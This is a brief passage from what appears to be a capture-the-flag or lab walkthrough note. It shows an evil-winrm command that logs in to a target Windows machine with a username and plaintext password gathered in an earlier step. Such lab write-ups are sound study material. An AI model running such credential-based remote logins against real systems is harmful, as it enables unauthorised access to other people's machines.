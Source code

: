 
#Attacking_machine 
Using `Evil-WinRM` and the credentials from the previous step you already can connect the Machine.

```
evil-winrm -i <MACHINE IP> -u j.rock -p Serviceworks1
```

![[Screenshot_2025-10-21_06-17-10.png]]

**Next step:** [[Services]]

